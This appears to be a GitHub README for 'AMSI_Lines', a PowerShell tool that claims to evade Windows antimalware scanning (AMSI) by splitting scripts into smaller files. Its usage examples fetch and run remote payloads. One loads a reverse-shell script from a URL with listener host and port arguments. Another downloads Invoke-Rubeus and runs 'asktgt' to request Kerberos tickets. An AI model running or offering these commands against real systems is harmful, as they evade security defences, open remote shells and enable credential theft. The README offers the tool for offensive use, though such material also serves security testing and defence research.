 # AMSI_Lines

*Bypass AMSI By Dividing files  into multiple smaller files*

### How To Use It

1. Clone The repository: `git clone https://github.com/x4sh3s/AMSI_Lines.git`
2. import the module
```powershell
PS C:\AMSI_Lines>import-module AMSI.ps1
```
3. execute the function `AMSI_Lines` : `AMSI_Lines -File "Url of the File" -Command "Command to be executed directly"`

### Examples:

```powershell
AMSI_Lines -File http://127.0.0.1:8080/revshell.ps1 -Commands "-LHOST MyIp -Port 9001"
AMSI_Lines # This Will Execute Invoke-Rubeus By default with '-h' parameter
AMSI_Lines -file "https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1" -Commands "invoke-rubeus asktgt"
```
